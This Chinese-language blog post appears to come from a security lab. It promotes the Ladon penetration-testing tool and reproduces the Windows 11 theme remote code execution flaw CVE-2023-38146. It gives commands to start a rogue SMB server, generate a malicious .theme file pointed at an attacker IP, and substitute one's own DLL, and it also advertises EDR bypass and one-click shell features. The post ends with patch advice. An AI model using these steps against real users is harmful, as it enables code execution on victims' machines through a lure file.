#  Win11 RCE漏洞复现CVE-2023-38146   
k8gege  K8实验室   2024-01-07 21:37  
  
**简介:**  
  
    
**Ladon单兵作战综合工具、模块化网络渗透工具**，可PowerShell模块化、可CS插件化、可内存加载，无文件扫描。含端口扫描、服务识别、网络资产探测、密码审计、高危漏洞检测、漏洞利用、密码读取以及一键GetShell，支持批量A段/B段/C段以及跨网段扫描，支持URL、主机、域名列表扫描等。12.4版本内置265个功能模块,外部模块18个,网络资产探测模块30个通过多种协议(ICMP\NBT\DNS\MAC\SMB\WMI\SSH\HTTP\HTTPS\Exchange\mssql\FTP\RDP)以及方法快速获取目标网络存活主机IP、计算机名、工作组、共享资源、网卡地址、操作系统版本、网站、子域名、中间件、开放服务、路由器、交换机、数据库、打印机等信息，高危漏洞检测16个包含Cisco、Zimbra、Exchange、DrayTek、MS17010、SMBGhost、Weblogic、ActiveMQ、Tomcat、Struts2系列、Printer等，密码审计23个含数据库(Mysql、Oracle、MSSQL)、FTP、SSH、VNC、Windows(LDAP、SMB/IPC、NBT、WMI、SmbHash、WmiHash、Winrm)、BasicAuth、Tomcat、Weblogic、Rar等，远程执行命令包含(smbexec/wmiexe/psexec/atexec/sshexec/webshell),Web指纹识别模块可识别135+（Web应用、中间件、脚本类型、页面类型）等，本地提权21+含SweetPotato\BadPotato\EfsPotato\BypassUAC,可高度自定义插件POC支持.NET程序集、DLL(C#/Delphi/VC)、PowerShell等语言编写的插件,支持通过配置INI批量调用任意外部程序或命令，EXP生成器可一键生成漏洞POC快速扩展扫描能力。Ladon支持Cobalt Strike插件化扫描快速拓展内网进行横向移动 内网渗透。****  
  
   Ladon早期功能只是内网渗透扫描器，所以大家误以为Ladon只是内网渗透工具，随着版本更迭，这2年不管是外网渗透、内网渗透、Web渗透还是后渗透，如前渗透，使用相关搜索引擎导出探测好的IP或URL，即可直接用Ladon批量利用新出漏洞获取大量权限。后渗透拿到权限后，不管是操作系统提权、数据库提权，或是横向执行命令、域渗透模块等，各种功能应有尽有，一个工具解决大量问题，所以定义**单兵综合作战工具。**  
  
**Ladon 12.4**  
```
Ladon 12.4  20240108
[u]SmbServer  支持Smb v1 v2 v3协议
[u]HtaServer  支持自定义端口
[+]GenURL    生成url文件(Windows RCE CVE-2023-36025或其它漏洞)
[u]SslInfo    输出SslInfo.log日志
[+]SmbServer  修复写日志崩溃的Bug，日志文件为SmbServer.log


12.28
[u]SslInfo    输出SslInfo.txt日志，解决一些语言乱码问题
[u]cmddll    修复Win7/Win8下GUI生成DLL的问题

12.3   20231221
[+]SmbServer   一键SMB共享服务器，记录来访IP，访问资源等
[+]Win11ThemeRce CVE-2023-38146 Win11主题远程执行Exploit


12.15
[+]OracleCmd2  Oracle数据库远程提权工具2 官方驱动>=net 4.8 大小4.9M不内置

Ladon 12.2  12.14
[+]OracleCmd  Oracle数据库远程提权工具 3种方法一键提权 
        支持Windows/Linux/MacOS等服务器操作系统
        支持高版本Oracle 12G、11G、12G及之前版本
[+]FindAD    PVEFindADUser可用于查找活动目录用户登陆的位置、枚举域用户

Ladon 12.1  12.08
[+]LotusAdmin  检测用户是否Lotus管理员
[+]HtaSer    Hta服务器(不限后缀,如访问doc执行hta)
[+]ConfVer    ConfluenceVer探测Confluence版本

Ladon 12.0  20231201
[+]DomainLog  DomainUserIP 远程查询 域用户、IP
[u]LoginLog    4624成功日志 域用户、域名、登陆IP 
/all      导出全部日志 原始数据
LoginLog 用户名 
LoginLog 用户名 记录数

==========================================================
Ladon 11.9  20231105
[u]LadonStudy    支持bypassEDR
[u]LadonShell    支持tls 1.2
[u]RdpInfo       优化RDP Ntlm探测系统信息
[u]RdpLog      查看3389连接日志(IP、用户名、CertHash)
[+]CVE-2023-46604  ActiveMQ CVE-2023-46604 RCE Exploit

Ladon 11.8  20231018
[u]InfoScan      新增SmtpInfo
[+]SmtpInfo      新增Smtp Ntlm探测系统信息(25、465、587端口)
[u]InfoScan      新增HttpInfo
[+]HttpInfo      新增Http/Https Ntlm探测系统信息(SharePoint)

```  
  
## 漏洞概述  
<table><tbody><tr style="height:27px;"><td style="border-width: 3px 2px 2px 3px;border-color: windowtext;border-style: solid;background: rgb(222, 234, 246);padding: 0px 7px;" width="117" height="27"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">CVE   ID</span></p></td><td style="border-top: 3px solid windowtext;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="146" height="27"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">CVE-2023-38146</span></p></td><td style="border-top: 3px solid windowtext;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="138.33333333333334" height="27"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">发现时间</span></p></td><td style="border-top: 3px solid windowtext;border-left: none;border-bottom: 2px solid windowtext;border-right: 3px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="172.33333333333331" height="27"><p style="text-align:center;line-height:150%;"><span style="font-family: &#34;微软雅黑&#34;, &#34;sans-serif&#34;;color: rgb(255, 104, 39);">2023-09-13</span></p></td></tr><tr><td style="border-top: none;border-left: 3px solid windowtext;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="117"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">类    型</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="146"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">RCE</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="143"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">等    级</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 3px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="172.33333333333331"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">高危</span></p></td></tr><tr><td style="border-top: none;border-left: 3px solid windowtext;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="117"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">攻击向量</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="146"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">网络</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="143"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">所需权限</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 3px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="172.33333333333331"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">无</span></p></td></tr><tr><td style="border-top: none;border-left: 3px solid windowtext;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="117"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">攻击复杂度</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="146"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">低</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="143"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">用户交互</span></p></td><td style="border-top: none;border-left: none;border-bottom: 2px solid windowtext;border-right: 3px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="172.33333333333331"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">需要</span></p></td></tr><tr><td style="border-top: none;border-left: 3px solid windowtext;border-bottom: 3px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="117"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">PoC/EXP</span></p></td><td style="border-top: none;border-left: none;border-bottom: 3px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="146"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">已公开</span></p></td><td style="border-top: none;border-left: none;border-bottom: 3px solid windowtext;border-right: 2px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="143"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">在野利用</span></p></td><td style="border-top: none;border-left: none;border-bottom: 3px solid windowtext;border-right: 3px solid windowtext;background: rgb(222, 234, 246);padding: 0px 7px;" width="172.33333333333331"><p style="text-align:center;line-height:150%;"><span style="font-family:&#39;微软雅黑&#39;,&#39;sans-serif&#39;;color:#333333;">未知</span></p></td></tr></tbody></table>  
   
  
Windows主题是一种视觉模式，它预先定义了墙纸、图标、指针、屏幕保护程序、声音或任何颜色样式的集合，这些样式一起构成了PC的界面，用户也可以根据自己的喜好更改主题和自定义主题。  
  
9月15日  
，Windows主题远程代码执行漏洞（  
CVE-2023-38146，也称为ThemeBleed）的PoC在互联网上公开，该漏洞的CVSSv3评分为8.8，微软已在9月补丁日发布的更新中修复了该漏洞。  
  
当
 .MSSTYLES文件的PACKTHEM_VERSION为999时，处理 .MSSTYLES 文件的例程在 
DLL（"_vrf.dll"）签名验证时间与加载库的时间之间存在重大差异，从而产生竞争条件。可使用特制的 
.MSSTYLES文件，利用竞争窗口将经过验证的DLL替换为恶意DLL，从而导致在目标计算机上运行任意代码。但利用该漏洞需要诱导目标用户在易受攻击的系统上加载
 Windows 主题文件。  
  
   
## 影响范围  
  
```
Windows 11 Version 22H2 for x64-based Systems
Windows 11 Version 22H2 for ARM64-based Systems
Windows 11 version 21H2 for ARM64-based Systems
Windows 11 version 21H2 for x64-based Systems
```  
  
  
  
**漏洞复现**  
  
POC为互联网公开，已将其加入Ladon，原版不支持SMB
 
V1和V3版本，经过多次测试发现，有时windows会随机使用v1、v2连接SMB，第1天不管测多少次，均可加上SMB执行代码，第2天优化其它功能，发现同一一台机器，莫名奇妙，不管执行多少次，清理DNS缓存、SMB缓存等、重置网络等都没用，不知何故它一直用V1连接，自己的环境都出现这种情况，实战环境更复杂，什么情况都会出现。  
  
一、开启SMB服务器(支持win11主题rce)  
  
关闭系统SMB服务，不让445端口占用  
```
Ladon SmbServer
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ESAML7BuCW7gPiaBCOpvROjfMfSy5DuhoWEIRV2fx0OWia8ZKbm5ld2AmVGepfVKxeS5ONKTWd2zbRGXL4ADS8tQ/640?wx_fmt=png&from=appmsg "")  
  
资源管理器访问\\192.168.50.165\test，看到共享即为成功  
  
二、生成poc主题文件  
```
Ladon Win11ThemeRce 192.168.50.165
```  
  
三、 程序同根目录下放share目录 stage_3可替换成自己的dll  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ESAML7BuCW7gPiaBCOpvROjfMfSy5Duhoiaxlo25Y3vqJbgQmutXcoodF8N5KSslgvkpBgqALoAYqnSfexpILX1Q/640?wx_fmt=png&from=appmsg "")  
  
**代码执行**    漏洞描述攻击者可利用该漏洞在未授权的情况下，构造恶意数据，诱引目标在易受攻击的系统上加载，执行远程代码执行攻击，最终获取系统代码执行权限。测试在Win11机器上，双击win11poc.theme，将会弹出计算器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ESAML7BuCW7gPiaBCOpvROjfMfSy5Duho25ibSFVFKr6DcWtriaTxhZFhSQkBem2hb7fBMuUSJFeoGgmKBRtzIicmg/640?wx_fmt=png&from=appmsg "")  
  
## 三、安全措施  
### 3.1 升级版本  
  
微软已在9月补丁日中发布了该漏洞的安全更新，受影响用户可及时安装更新。  
  
下载链接：  
  
https://msrc.microsoft.com/update-guide/en-US/advisory/CVE-2023-38146  
  
